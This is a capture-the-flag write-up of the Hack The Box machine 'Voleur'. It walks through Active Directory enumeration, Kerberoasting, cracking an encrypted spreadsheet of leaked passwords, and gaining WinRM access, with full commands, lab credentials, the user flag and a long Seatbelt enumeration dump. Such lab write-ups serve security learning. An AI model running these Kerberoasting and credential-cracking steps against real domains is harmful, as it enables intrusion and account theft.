


# Hack The Box — Voleur


## Summary

This document provides a detailed walkthrough for the Hack The Box machine Voleur.

## Target

- Machine IP: 10.10.11.76

- Domain: voleur.htb

- Initial Credentials: ryan.naylor:HollowOct31Nyt


## Reconnaissance

Add host mappings in `/etc/hosts` as discovered:

```
10.10.11.76   voleur.htb dc.voleur.htb
```

Run fast scans using `nmap`:

```bash
# Nmap 7.95 scan initiated Fri Oct 17 10:06:12 2025 as: /usr/lib/nmap/nmap -sCV -T5 -onmap_result 10.10.11.76
Nmap scan report for voleur.htb (10.10.11.76)
Host is up (0.14s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-10-17 14:06:48Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2222/tcp open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 42:40:39:30:d6:fc:44:95:37:e1:9b:88:0b:a2:d7:71 (RSA)
|   256 ae:d9:c2:b8:7d:65:6f:58:c8:f4:ae:4f:e4:e8:cd:94 (ECDSA)
|_  256 53:ad:6b:6c:ca:ae:1b:40:44:71:52:95:29:b1:bb:c1 (ED25519)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OSs: Windows, Linux; CPE: cpe:/o:microsoft:windows, cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2025-10-17T14:06:52
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 4s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 17 10:07:27 2025 -- 1 IP address (1 host up) scanned in 75.22 seconds
```
---

## Active Directory Enumeration with BloodHound

With the provided credentials, the first step is to enumerate the domain to understand its structure, users, computers, and potential attack vectors.

To get a comprehensive view of the Active Directory environment, we use BloodHound. We run the Python collector with our credentials to gather data about users, groups, computers, and permissions.

```Bash
bloodhound-python -u ryan.naylor -p 'HollowOct31Nyt' -d voleur.htb -ns 10.10.11.76 --collectionmethod All --zip
```


Let's take a deeper look on the user that `ryan.naylor` to find any groups or outbound relation he has.


Here we can see that he is the usual part of `Domain Users` and `Users` group, but wait! what is this, a group called `First-Line Technicians`? 


We then clicked on the group and found that there is 2 members who is assigned to the group `Ryan.Naylor` and `Marie.Bryant`. My theory is that we should be able to gain access to marie too.


Not much to gain here, let's move on to another enumeration method using Impacket.

---

### TGT Acquisition with Impacket

First, we need to configure the `/etc/krb5.conf` file. This setup is essential for our client to correctly communicate with the target's Kerberos authentication service within the `VOLEUR.HTB` domain.


With the credentials for `ryan.naylor`, the next logical step is to authenticate to the domain and obtain a Kerberos Ticket-Granting Ticket (TGT). This ticket will serve as our proof of identity within the VOLEUR.HTB domain, allowing us to request access to other services without repeatedly sending the user's password.

```bash
getTGT.py voleur.htb/ryan.naylor:Hollow0ct31Nyt
```

This command authenticates to the domain controller using the provided credentials and, upon success, saves the TGT into a credential cache file `.ccache`.

### Setting the Kerberos Credential Cache

To make this newly acquired ticket usable by other Kerberos-aware tools (like secretsdump.py, smbexec.py, or the system's klist), we need to tell our environment where to find it. This is done by setting the KRB5CCNAME environment variable:

```bash
export KRB5CCNAME=ryan.naylor.ccache
```


Finally, we can verify that the TGT has been successfully obtained and loaded into our session by using the klist command.


Now that we are verified, let's enumerate the Domain even further:

---

### Active Directory Enumeration with Impacket

**1) Enumerate Domain Users with GetADUsers.py**

We use Impacket's GetADUsers.py script to enumerate all domain users. use `-k` to instructs the script to use Kerberos authentication. 

The output provides a comprehensive list of all users within the VOLEUR.HTB domain, including their last logon and password last set times. 

```Bash
GetADUsers.py -k -all -dc-ip 10.10.11.76 -dc-host dc.voleur.htb voleur.htb/ 
```


**2) Enumerate Domain Computers with GetADComputers.py**

Then, we use the GetADComputers.py script from Impacket to query for other Active Directory objects, such as computer accounts. 

```Bash
GetADComputers.py -k -dc-ip 10.10.11.76 -dc-host dc.voleur.htb voleur.htb/
```


**3) Check for Kerberoastable Users with GetUserSPNs.py**

We used Impacket's GetUserSPNs.py script to query the domain for accounts with SPNs. This tool uses our cached Kerberos ticket for authentication.

Lucky for us! we could identified an SPN (http/owned) associated with the user `lacey.miller`. With the help of the `-request` flag, we can asks the domain controller for a service ticket (TGS) for this SPN. 

*The TGS is an encrypted ticket with the password hash of an user account, we can extracts this encrypted portion into a format and crack it using password cracking tools like john and hashcat .*

```Bash
GetUserSPNs.py -k voleur.htb/ryan.naylor:HollowOct31Nyt -dc-ip 10.10.11.76 -dc-host dc.voleur.htb -request
```


We go back to the bloodhound to analyse the user `lacey.miller` even more. Seems interesting that she is in the second-line technicians... A possible priviledge escalation if you ask me.


Let's copy the hash into a txt file for offline cracking.


**Unfortunately**, the hash does not contain easy crackable password =(


**4) Check for AS-REP Roastable Users with GetNPUsers.py**

Lastly, we try another common Kerberos attack vector, AS-REP Roasting. 

*This attack targets users that have Kerberos pre-authentication disabled, a setting which allows an attacker to request a piece of user data that can be cracked offline without needing to provide any initial credentials.*

```Bash
python3 GetNPUsers.py 'voleur.htb/ryan.naylor:HollowOct31Nyt' -dc-host dc.voleur.htb -dc-ip 10.10.11.76
```


However, user `ryan.naylor` doesn't have `UF_DONT_REQUIRE_PREAUTH` set to true, so we could not get any useful result.

---

## Detailed Enumeration with LDAP Search

To view of the structure Active Directory environment, we use a direct LDAP query using the ldapsearch to specify which attributes we want to retrieve for each object.

The output provides the distinguished name for each user, which reveals the Organizational Unit (OU) structure of the domain. We can see OUs such as `First-Line Support Technicians,` `Second-Line Support Technicians,` `Third-Line Support Technicians,` and `Service Accounts`. This hierarchical information is critical for understanding the domain's structure and identifying where high-value targets might be located.


---

## Enumerating and Accessing SMB Shares
With confirmed credentials and a valid Kerberos ticket, the next step was to enumerate open SMB shares on the domain controller. This can often reveal sensitive files or misconfigured permissions.

First, crackmapexec was used to quickly validate that the ryan.naylor credentials had access to the SMB service. Let's go we can use ryan credential to connect to the service.

```Bash
crackmapexec smb dc.voleur.htb -d voleur.htb -u 'ryan.naylor' -p 'Hollow0ct31Nyt'
```


Let's use smbclient.py to connect to the domain controller and list the available shares. 

```Bash
smbclient.py -k dc.voleur.htb
```
We successfully connected and listed several shares, including `Finance`, `HR`, and `IT`. The `IT` share was of particular interest. 

Upon navigating into the share and its subdirectories, a file named `Access_Review.xlsx` was discovered in the First-Line Support folder. I'm curious about it and downloaded it into my machine for analysing process.


---

## Analyzing the Discovered Excel File

Checking the file type revealed that Access_Review.xlsx was encrypted [CDFV2 Encrypted].


### Cracking the Encrypted File

To access its contents, we needed to crack the password:

**1. Hash Extraction:** The office2john.py script was used to extract the password hash from the XLSX file. This script is part of the John the Ripper suite and is designed specifically for this purpose. 


**2. Password Cracking:** With the hash saved to access_hash.txt, we used John the Ripper with the popular rockyou.txt wordlist to crack it. 
The tool successfully cracked the hash, revealing the password: `football1`. 


**3. Decryption:** Finally, we use the msoffcrypto-tool with the recovered password to decrypt the file.


**4. Convertion:** Unfortunately, we cannot read the excel file in kali, so we used xlsx2csv-tool to convert the decrypted XLSX file to CSV to read its content.


As we read the file content, we got hold on a backup file that stored the domain's users informations. 

**So my conclusion in this file that are interesting:**
1) A user named Todd.Wolfe with high priviledge has been deleted (Maybe we can recover it later) and we got the password for it `NightT1meP1dg3on14`.
2) Service accounts that has been leaked with their passwords, `svc_ldap`: `M1XyC9pW7qT5Vn` and `svc_iis`: `N5pXyW1VqM7CZ8`. 


## Analyzing again with Bloodhound

We then proceed to analysis the services accounts we got earlier to reveal anything interesting. it had significant privileges, including WriteSPN on the svc_winrm account and membership in the RESTORE_USERS group, which granted GenericWrite permissions over other users and groups. This discovery opened a clear path for privilege escalation.

1) `svc_iis` seems to be nothing interesting in the groups or outbound connections.


2) `svc_ldap` seems to reveal something interesting. This account had significant privileges, including WriteSPN on the `svc_winrm` account and membership in the `RESTORE_USERS` group, which granted GenericWrite permissions over other users and groups. This discovery opened a clear path for privilege escalation.


3) `svc_winrm` is a member of the `Remote Management Users`, which means we can connect remotely to the account using `evil-winrm tools`.


## Initial Foothold via Targeted Kerberoasting

The credentials for svc_ldap were the key to the next stage of the attack. But we need to be smart, the `svc_ldap` account doesn't have remote priviledge, but `svc_winrm` do! Sooo, I think I know what to do here...

### Authenticating as svc_ldap

First, we obtained a TGT for the svc_ldap user. With a valid ticket, we can now impersonate this account and act as this user.

```Bash
getTGT.py voleur.htb/svc_ldap:M1XyC9pW7qT5Vn
export KRB5CCNAME=svc_ldap.ccache
```


### Finding and Cracking the svc_winrm SPN

Using our authenticated svc_ldap session, we performed another Kerberoast. Because of `svc_ldap` has `WriteSPN` set to `svc_winrm`, we can request the TGS hash for `svc_winrm` account.


We then used hashcat to crack this new hash.

```Bash
hashcat -m 13100 winrm_tgs.txt /usr/share/wordlists/rockyou.txt
```


The attack was successful, revealing the password for `svc_winrm` `AFireInsideOzArctica980219afi`.


### Gaining Remote Access with Evil-WinRM

We then obtained a TGT for `svc_winrm` and then using `Evil-WinRM` to connect to the domain controller. Let's gooo we're in....


Damn, inside the `svc_winrm` desktop, we got the `user.txt` flag!!



**User Flag:** `c531abf0f6006cfdef0c35e0a54dd2eb`

---

## Privilege Escalation via RunasCs

Once on the system as `svc_winrm`, we began post-exploitation enumeration to upgrade our priviledge to `svc_ldap`.

### Enumeration via Seatbelt

Most people will use Winpeas.exe, no i want to be differents. Let's use Seatbelt.exe for further enumeration.

```bash


                        %&&@@@&&
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
#####%######################  %%%..                       @////(((&%%%%%%%################
                        &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
                        &%%&&&%%%%%        v1.2.1         ,(((&%%%%%%%%%%%%%%%%%,
                         #%%%%##,


====== AMSIProviders ======

====== AntiVirus ======

Cannot enumerate antivirus. root\SecurityCenter2 WMI namespace is not available on Windows Servers
====== AppLocker ======

ERROR:   [!] Terminating exception running command 'AppLocker': System.Management.ManagementException: Access denied
   at System.Management.ManagementException.ThrowWithExtendedInfo(ManagementStatus errorCode)
   at System.Management.ManagementScope.InitializeGuts(Object o)
   at System.Management.ManagementScope.Initialize()
   at System.Management.ManagementObjectSearcher.Initialize()
   at System.Management.ManagementObjectSearcher.Get()
   at Seatbelt.Commands.Windows.AppLockerCommand.<Execute>d__10.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== ARPTable ======

  Loopback Pseudo-Interface 1 --- Index 1
    Interface Description : Software Loopback Interface 1
    Interface IPs      : ::1, 127.0.0.1
    DNS Servers        : fec0:0:0:ffff::1%1, fec0:0:0:ffff::2%1, fec0:0:0:ffff::3%1

    Internet Address      Physical Address      Type
    224.0.0.22            00-00-00-00-00-00     Static


  Ethernet0 2 --- Index 13
    Interface Description : vmxnet3 Ethernet Adapter
    Interface IPs      : 10.10.11.76
    DNS Servers        : 127.0.0.1

    Internet Address      Physical Address      Type
    10.10.10.2            00-50-56-B9-23-97     Dynamic
    10.10.11.75           00-50-56-B9-B3-77     Dynamic
    10.10.11.255          FF-FF-FF-FF-FF-FF     Static
    169.254.169.254       00-00-00-00-00-00     Invalid
    224.0.0.22            01-00-5E-00-00-16     Static
    224.0.0.251           01-00-5E-00-00-FB     Static
    224.0.0.252           01-00-5E-00-00-FC     Static


====== AuditPolicies ======

====== AuditPolicyRegistry ======

====== AutoRuns ======


  HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run :
    C:\Windows\system32\SecurityHealthSystray.exe
    C:\Windows\AzureArcSetup\Systray\AzureArcSysTray.exe
    "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe" -n vmusr
====== Certificates ======

====== CertificateThumbprints ======

CurrentUser\Root - 92B46C76E13054E104F230517E6E504D43AB10B5 (Symantec Enterprise Mobile Root for Microsoft) 3/14/2032 4:59:59 PM
CurrentUser\Root - 8F43288AD272F3103B6FB1428485EA3014C0BCFE (Microsoft Root Certificate Authority 2011) 3/22/2036 3:13:04 PM
CurrentUser\Root - 3B1EFD3A66EA28B16697394703A72CA340A05BD5 (Microsoft Root Certificate Authority 2010) 6/23/2035 3:04:01 PM
CurrentUser\Root - 31F9FC8BA3805986B721EA7295C65B3A44534274 (Microsoft ECC TS Root Certificate Authority 2018) 2/27/2043 1:00:12 PM
CurrentUser\Root - 06F1AA330B927B753A40E68CDF22E34BCBEF3352 (Microsoft ECC Product Root Certificate Authority 2018) 2/27/2043 12:50:46 PM
CurrentUser\Root - 0119E81BE9A14CD8E22F40AC118C687ECBA3F4D8 (Microsoft Time Stamp Root Certificate Authority 2014) 10/22/2039 3:15:19 PM
CurrentUser\Root - DF3C24F9BFD666761B268073FE06D1CC8D4F82A4 (DigiCert Global Root G2) 1/15/2038 4:00:00 AM
CurrentUser\Root - CABD2A79A1076A31F21D253635CB039D4329A5E8 (ISRG Root X1) 6/4/2035 4:04:38 AM
CurrentUser\Root - A8985D3A65E5E5C4B2D7D66D40C6DD2FB19C5436 (DigiCert Global Root CA) 11/9/2031 4:00:00 PM
CurrentUser\Root - 7E04DE896A3E666D00E687D33FFAD93BE83D349E (DigiCert Global Root G3) 1/15/2038 4:00:00 AM
CurrentUser\Root - 742C3192E607E424EB4549542BE1BBC53E6174E2 (Class 3 Public Primary Certification Authority) 8/1/2028 4:59:59 PM
CurrentUser\Root - 4EB6D578499B1CCF5F581EAD56BE3D9B6744A5E5 (VeriSign Class 3 Public Primary Certification Authority - G5) 7/16/2036 4:59:59 PM
CurrentUser\Root - 0563B8630D62D75ABBC8AB1E4BDFB5A899B24D43 (DigiCert Assured ID Root CA) 11/9/2031 4:00:00 PM
LocalMachine\Root - 92B46C76E13054E104F230517E6E504D43AB10B5 (Symantec Enterprise Mobile Root for Microsoft) 3/14/2032 4:59:59 PM
LocalMachine\Root - 8F43288AD272F3103B6FB1428485EA3014C0BCFE (Microsoft Root Certificate Authority 2011) 3/22/2036 3:13:04 PM
LocalMachine\Root - 3B1EFD3A66EA28B16697394703A72CA340A05BD5 (Microsoft Root Certificate Authority 2010) 6/23/2035 3:04:01 PM
LocalMachine\Root - 31F9FC8BA3805986B721EA7295C65B3A44534274 (Microsoft ECC TS Root Certificate Authority 2018) 2/27/2043 1:00:12 PM
LocalMachine\Root - 06F1AA330B927B753A40E68CDF22E34BCBEF3352 (Microsoft ECC Product Root Certificate Authority 2018) 2/27/2043 12:50:46 PM
LocalMachine\Root - 0119E81BE9A14CD8E22F40AC118C687ECBA3F4D8 (Microsoft Time Stamp Root Certificate Authority 2014) 10/22/2039 3:15:19 PM
LocalMachine\Root - DF3C24F9BFD666761B268073FE06D1CC8D4F82A4 (DigiCert Global Root G2) 1/15/2038 4:00:00 AM
LocalMachine\Root - CABD2A79A1076A31F21D253635CB039D4329A5E8 (ISRG Root X1) 6/4/2035 4:04:38 AM
LocalMachine\Root - A8985D3A65E5E5C4B2D7D66D40C6DD2FB19C5436 (DigiCert Global Root CA) 11/9/2031 4:00:00 PM
LocalMachine\Root - 7E04DE896A3E666D00E687D33FFAD93BE83D349E (DigiCert Global Root G3) 1/15/2038 4:00:00 AM
LocalMachine\Root - 742C3192E607E424EB4549542BE1BBC53E6174E2 (Class 3 Public Primary Certification Authority) 8/1/2028 4:59:59 PM
LocalMachine\Root - 4EB6D578499B1CCF5F581EAD56BE3D9B6744A5E5 (VeriSign Class 3 Public Primary Certification Authority - G5) 7/16/2036 4:59:59 PM
LocalMachine\Root - 0563B8630D62D75ABBC8AB1E4BDFB5A899B24D43 (DigiCert Assured ID Root CA) 11/9/2031 4:00:00 PM
CurrentUser\CertificateAuthority - FEE449EE0E3965A5246F000E87FDE2A065FD89D4 (Root Agency) 12/31/2039 3:59:59 PM
LocalMachine\CertificateAuthority - FEE449EE0E3965A5246F000E87FDE2A065FD89D4 (Root Agency) 12/31/2039 3:59:59 PM
CurrentUser\AuthRoot - DF3C24F9BFD666761B268073FE06D1CC8D4F82A4 (DigiCert Global Root G2) 1/15/2038 4:00:00 AM
CurrentUser\AuthRoot - CABD2A79A1076A31F21D253635CB039D4329A5E8 (ISRG Root X1) 6/4/2035 4:04:38 AM
CurrentUser\AuthRoot - A8985D3A65E5E5C4B2D7D66D40C6DD2FB19C5436 (DigiCert Global Root CA) 11/9/2031 4:00:00 PM
CurrentUser\AuthRoot - 7E04DE896A3E666D00E687D33FFAD93BE83D349E (DigiCert Global Root G3) 1/15/2038 4:00:00 AM
CurrentUser\AuthRoot - 742C3192E607E424EB4549542BE1BBC53E6174E2 (Class 3 Public Primary Certification Authority) 8/1/2028 4:59:59 PM
CurrentUser\AuthRoot - 4EB6D578499B1CCF5F581EAD56BE3D9B6744A5E5 (VeriSign Class 3 Public Primary Certification Authority - G5) 7/16/2036 4:59:59 PM
CurrentUser\AuthRoot - 0563B8630D62D75ABBC8AB1E4BDFB5A899B24D43 (DigiCert Assured ID Root CA) 11/9/2031 4:00:00 PM
LocalMachine\AuthRoot - DF3C24F9BFD666761B268073FE06D1CC8D4F82A4 (DigiCert Global Root G2) 1/15/2038 4:00:00 AM
LocalMachine\AuthRoot - CABD2A79A1076A31F21D253635CB039D4329A5E8 (ISRG Root X1) 6/4/2035 4:04:38 AM
LocalMachine\AuthRoot - A8985D3A65E5E5C4B2D7D66D40C6DD2FB19C5436 (DigiCert Global Root CA) 11/9/2031 4:00:00 PM
LocalMachine\AuthRoot - 7E04DE896A3E666D00E687D33FFAD93BE83D349E (DigiCert Global Root G3) 1/15/2038 4:00:00 AM
LocalMachine\AuthRoot - 742C3192E607E424EB4549542BE1BBC53E6174E2 (Class 3 Public Primary Certification Authority) 8/1/2028 4:59:59 PM
LocalMachine\AuthRoot - 4EB6D578499B1CCF5F581EAD56BE3D9B6744A5E5 (VeriSign Class 3 Public Primary Certification Authority - G5) 7/16/2036 4:59:59 PM
LocalMachine\AuthRoot - 0563B8630D62D75ABBC8AB1E4BDFB5A899B24D43 (DigiCert Assured ID Root CA) 11/9/2031 4:00:00 PM
====== ChromiumBookmarks ======

====== ChromiumHistory ======

History (C:\Users\svc_winrm\AppData\Local\Microsoft\Edge\User Data\Default\History):


====== ChromiumPresence ======


  C:\Users\svc_winrm\AppData\Local\Microsoft\Edge\User Data\Default\

    'History'     (1/29/2025 7:07:36 AM)  :  Run the 'ChromiumHistory' command
====== CloudCredentials ======

====== CloudSyncProviders ======

====== CredEnum ======

ERROR:   [!] Terminating exception running command 'CredEnum': System.ComponentModel.Win32Exception (0x80004005): A specified logon session does not exist. It may already have been terminated
   at Seatbelt.Commands.Windows.CredEnumCommand.<Execute>d__9.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== CredGuard ======

ERROR: System.Management.ManagementException: Access denied
   at System.Management.ManagementException.ThrowWithExtendedInfo(ManagementStatus errorCode)
   at System.Management.ManagementScope.InitializeGuts(Object o)
   at System.Management.ManagementScope.Initialize()
   at System.Management.ManagementObjectSearcher.Initialize()
   at System.Management.ManagementObjectSearcher.Get()
   at Seatbelt.Commands.CredentialGuardCommand.<Execute>d__10.MoveNext()
====== dir ======

  LastAccess LastWrite  Size      Path

  25-01-29   25-01-29   0B        C:\Users\svc_winrm\Documents\My Music\
  25-01-29   25-01-29   0B        C:\Users\svc_winrm\Documents\My Pictures\
  25-01-29   25-01-29   0B        C:\Users\svc_winrm\Documents\My Videos\
  25-10-17   25-10-17   891.7KB   C:\Users\svc_winrm\Documents\powerview.ps1
  25-10-17   25-10-17   50.5KB    C:\Users\svc_winrm\Documents\runascs.exe
  25-10-17   25-10-17   583KB     C:\Users\svc_winrm\Documents\Seatbelt.exe
  25-10-17   25-10-17   0B        C:\Users\svc_winrm\Documents\SharpHound.exe
  25-01-29   25-01-29   2.3KB     C:\Users\svc_winrm\Desktop\Microsoft Edge.lnk
  25-10-16   25-10-16   34B       C:\Users\svc_winrm\Desktop\user.txt
  25-01-28   25-01-28   0B        C:\Users\Default\Documents\My Music\
  25-01-28   25-01-28   0B        C:\Users\Default\Documents\My Pictures\
  25-01-28   25-01-28   0B        C:\Users\Default\Documents\My Videos\
====== DNSCache ======

ERROR: System.Management.ManagementException: Access denied
   at System.Management.ManagementException.ThrowWithExtendedInfo(ManagementStatus errorCode)
   at System.Management.ManagementScope.InitializeGuts(Object o)
   at System.Management.ManagementScope.Initialize()
   at System.Management.ManagementObjectSearcher.Initialize()
   at System.Management.ManagementObjectSearcher.Get()
   at Seatbelt.Commands.Windows.DNSCacheCommand.<Execute>d__10.MoveNext()
====== DotNet ======

ERROR:   [!] Terminating exception running command 'DotNet': System.FormatException: Input string was not in a correct format.
   at System.Number.StringToNumber(String str, NumberStyles options, NumberBuffer& number, NumberFormatInfo info, Boolean parseDecimal)
   at System.Number.ParseInt32(String s, NumberStyles style, NumberFormatInfo info)
   at Seatbelt.Commands.Windows.DotNetCommand.<Execute>d__12.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== DpapiMasterKeys ======

  Folder : C:\Users\svc_winrm\AppData\Roaming\Microsoft\Protect\S-1-5-21-3927696377-1337352550-2781715495-1601

    LastAccessed              LastModified              FileName
    ------------              ------------              --------
    1/29/2025 7:07:34 AM      1/29/2025 7:07:34 AM      2df1d8a3-cb47-4723-9d2e-b826b57a3952


  [*] Use the Mimikatz "dpapi::masterkey" module with appropriate arguments (/pvk or /rpc) to decrypt
  [*] You can also extract many DPAPI masterkeys from memory with the Mimikatz "sekurlsa::dpapi" module
  [*] You can also use SharpDPAPI for masterkey retrieval.
====== Dsregcmd ======

ERROR: Unable to collect. No relevant information were returned
====== EnvironmentPath ======

  Name                           : C:\Windows\system32
  SDDL                           : O:S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464D:PAI(A;OICIIO;GA;;;CO)(A;OICIIO;GA;;;SY)(A;;0x1301bf;;;SY)(A;OICIIO;GA;;;BA)(A;;0x1301bf;;;BA)(A;OICIIO;GXGR;;;BU)(A;;0x1200a9;;;BU)(A;CIIO;GA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464)(A;;FA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464)(A;;0x1200a9;;;AC)(A;OICIIO;GXGR;;;AC)(A;;0x1200a9;;;S-1-15-2-2)(A;OICIIO;GXGR;;;S-1-15-2-2)

  Name                           : C:\Windows
  SDDL                           : O:S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464D:PAI(A;OICIIO;GA;;;CO)(A;OICIIO;GA;;;SY)(A;;0x1301bf;;;SY)(A;OICIIO;GA;;;BA)(A;;0x1301bf;;;BA)(A;OICIIO;GXGR;;;BU)(A;;0x1200a9;;;BU)(A;CIIO;GA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464)(A;;FA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464)(A;;0x1200a9;;;AC)(A;OICIIO;GXGR;;;AC)(A;;0x1200a9;;;S-1-15-2-2)(A;OICIIO;GXGR;;;S-1-15-2-2)

  Name                           : C:\Windows\System32\Wbem
  SDDL                           : O:S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464D:PAI(A;OICIIO;GA;;;CO)(A;OICIIO;GA;;;SY)(A;;0x1301bf;;;SY)(A;OICIIO;GA;;;BA)(A;;0x1301bf;;;BA)(A;OICIIO;GXGR;;;BU)(A;;0x1200a9;;;BU)(A;CIIO;GA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464)(A;;FA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464)(A;;0x1200a9;;;AC)(A;OICIIO;GXGR;;;AC)(A;;0x1200a9;;;S-1-15-2-2)(A;OICIIO;GXGR;;;S-1-15-2-2)

  Name                           : C:\Windows\System32\WindowsPowerShell\v1.0\
  SDDL                           : O:S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464D:PAI(A;OICIIO;GA;;;CO)(A;OICIIO;GA;;;SY)(A;;0x1301bf;;;SY)(A;OICIIO;GA;;;BA)(A;;0x1301bf;;;BA)(A;OICIIO;GXGR;;;BU)(A;;0x1200a9;;;BU)(A;CIIO;GA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464)(A;;FA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464)(A;;0x1200a9;;;AC)(A;OICIIO;GXGR;;;AC)(A;;0x1200a9;;;S-1-15-2-2)(A;OICIIO;GXGR;;;S-1-15-2-2)

  Name                           : C:\Windows\System32\OpenSSH\
  SDDL                           : O:S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464D:PAI(A;OICIIO;GA;;;CO)(A;OICIIO;GA;;;SY)(A;;0x1301bf;;;SY)(A;OICIIO;GA;;;BA)(A;;0x1301bf;;;BA)(A;OICIIO;GXGR;;;BU)(A;;0x1200a9;;;BU)(A;CIIO;GA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464)(A;;FA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464)(A;;0x1200a9;;;AC)(A;OICIIO;GXGR;;;AC)(A;;0x1200a9;;;S-1-15-2-2)(A;OICIIO;GXGR;;;S-1-15-2-2)

  Name                           : C:\Users\svc_winrm\AppData\Local\Microsoft\WindowsApps
  SDDL                           : O:S-1-5-21-3927696377-1337352550-2781715495-1601D:(A;OICIID;FA;;;SY)(A;OICIID;FA;;;BA)(A;OICIID;FA;;;S-1-5-21-3927696377-1337352550-2781715495-1601)

====== EnvironmentVariables ======

====== ExplicitLogonEvents ======

ERROR: Unable to collect. Must be an administrator.
====== ExplorerMRUs ======

====== ExplorerRunCommands ======

====== FileInfo ======

  Comments                       :
  CompanyName                    : Microsoft Corporation
  FileDescription                : NT Kernel & System
  FileName                       : C:\Windows\system32\ntoskrnl.exe
  FileVersion                    : 10.0.20348.3804 (WinBuild.160101.0800)
  InternalName                   : ntkrnlmp.exe
  IsDebug                        : False
  IsDotNet                       : False
  IsPatched                      : False
  IsPreRelease                   : False
  IsPrivateBuild                 : False
  IsSpecialBuild                 : False
  Language                       : English (United States)
  LegalCopyright                 : c Microsoft Corporation. All rights reserved.
  LegalTrademarks                :
  OriginalFilename               : ntkrnlmp.exe
  PrivateBuild                   :
  ProductName                    : Microsoftr Windowsr Operating System
  ProductVersion                 : 10.0.20348.3804
  SpecialBuild                   :
  Attributes                     : Archive
  CreationTimeUtc                : 6/30/2025 9:21:36 PM
  LastAccessTimeUtc              : 7/1/2025 12:04:43 AM
  LastWriteTimeUtc               : 6/30/2025 9:21:37 PM
  Length                         : 11584952
  SDDL                           : O:S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464D:PAI(A;;0x1200a9;;;SY)(A;;0x1200a9;;;BA)(A;;0x1200a9;;;BU)(A;;FA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464)(A;;0x1200a9;;;AC)

====== FileZilla ======

====== FirefoxHistory ======

====== FirefoxPresence ======

====== Hotfixes ======

Enumerating Windows Hotfixes. For *all* Microsoft updates, use the 'MicrosoftUpdates' command.

ERROR:   [!] Terminating exception running command 'Hotfixes': System.Management.ManagementException: Access denied
